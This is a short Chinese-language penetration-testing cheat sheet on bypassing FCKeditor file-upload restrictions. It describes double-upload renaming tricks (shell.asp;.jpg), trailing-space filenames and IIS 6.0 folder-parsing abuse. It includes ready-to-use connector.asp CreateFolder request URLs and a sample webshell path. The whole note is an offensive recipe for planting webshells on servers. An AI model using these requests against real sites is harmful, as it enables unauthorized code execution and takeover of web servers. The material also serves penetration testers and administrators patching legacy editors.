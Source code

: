 ```yaml
---
title: 三、FCKeditor 突破上传
id: zhfly2936
---
```


# 上传限制

上传限制的突破方式很多，主要还是抓包改扩展名，%00截断，添加文件头等

# 文件名限制

## 二次上传绕过

文件名‘ . ’ 修改为‘ _ ’

FCK在上传了诸如shell.asp;.jpg的文件后，会自动将文件名改为shell_asp;.jpg。可以继续上传同名文件，文件名会变为shell.asp;(1).jpg

## 提交shell.php+空格绕过

提交shell.php+空格绕过

空格只支持windows系统，linux系统是不支持的，可提交shell.php+空格来绕过文件名限制。

# iis6.0突破文件夹限制

```
Fckeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=File&CurrentFolder=/shell.asp&NewFolderName=z.asp
FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/shell.asp&NewFolderName=z&uuid=1244789975684
FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=CreateFolder&CurrentFolder=/&Type=Image&NewFolderName=shell.asp 
```

# 文件解析限制

通过Fckeditor编辑器在文件上传页面中，创建诸如1.asp文件夹，然后再到该文件夹下上传一个图片的webshell文件，获取其shell。

```
http://www.0-sec.o../img/upload/201806/image/1.asp/1.jpg 
```